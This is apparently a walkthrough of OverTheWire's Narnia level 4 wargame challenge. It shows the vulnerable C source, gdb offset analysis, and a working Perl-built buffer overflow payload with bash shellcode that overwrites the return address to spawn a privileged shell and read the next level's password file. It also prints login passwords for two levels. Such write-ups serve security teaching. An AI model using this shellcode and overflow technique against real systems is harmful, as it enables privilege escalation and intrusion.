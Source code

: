 # Level 4 → Level 5

## Solution
```
ssh narnia4@narnia.labs.overthewire.org -p 2226
```
```
aKNxxrpDc1
```
```
cd /narnia ; ls -al
```
```
./narnia4
```

![](0.png)

Let's look at the code:

```
cat narnia4.c
```

The printed file is shown below:

```c
/*
   This program is free software; you can redistribute it and/or modify
   it under the terms of the GNU General Public License as published by
   the Free Software Foundation; either version 2 of the License, or
   (at your option) any later version.

   This program is distributed in the hope that it will be useful,
   but WITHOUT ANY WARRANTY; without even the implied warranty of
   MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
   GNU General Public License for more details.

   You should have received a copy of the GNU General Public License
   along with this program; if not, write to the Free Software
   Foundation, Inc., 51 Franklin St, Fifth Floor, Boston, MA  02110-1301  USA
*/

#include <string.h>
#include <stdlib.h>
#include <stdio.h>
#include <ctype.h>

extern char **environ;

int main(int argc,char **argv){
    int i;
    char buffer[256];

    for(i = 0; environ[i] != NULL; i++)
        memset(environ[i], '\0', strlen(environ[i]));

    if(argc>1)
        strcpy(buffer,argv[1]);

    return 0;
}
```

In challenge `Level2 -> Level3`, after I finished I saw a solution to the challenge in a YouTube video (I attached the link to the video under the title **Appendix**). In the video there was a way to solve the challenge using environment variables. In the current challenge, it seems that the file deletes all environment variables.

But since my solution did not include environment variables (Except for convenient purposes that I will now be forced to give up now...) - so it also fits here (with necessary changes such as addresses)

Let's get started.

The total size of the input will be 256+4+4+4.
* 256, size of array `buffer`. shellcode is included inside.
* +4, size of integer `i`
* +4, size of register `ebp`
* +4, size of the **return address** FROM `main` function. This is the goal..

We will now check addresses:

```
gdb --args ./narnia4 $(perl -e 'print "A"x256 . "B"x4 . "C"x4 . "D"x4')
```
```
disas main
```

![](1.png)

We would like to set a breakpoint immediately after strcpy and look at the stack. Therefore, a breakpoint was set to be at `0x08049218`

```
b *0x08049218
```
```
r
```
```
c
```

![](2.png)

That means we have successfully overridden the return address. Let's look at the stack:

```
r
```
```
x/80x $sp
```

![](3.png)

That is, the address `0xffffd2e4` is the top of the stack. Now according to the calculations we performed in the `Level2 -> Level3` challenge we will perform the following steps:

```
exit
```
```
./narnia4 $(perl -e 'print "A"x64 . "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80" . "A"x(256+4+4-64-33) . "\x24\xd3\xff\xff"')
```
```
id
```
```
whoami
```
```
cat /etc/narnia_pass/narnia5
```

![](4.png)

## Password for the next level:
```
1oCoEkRJSB
```
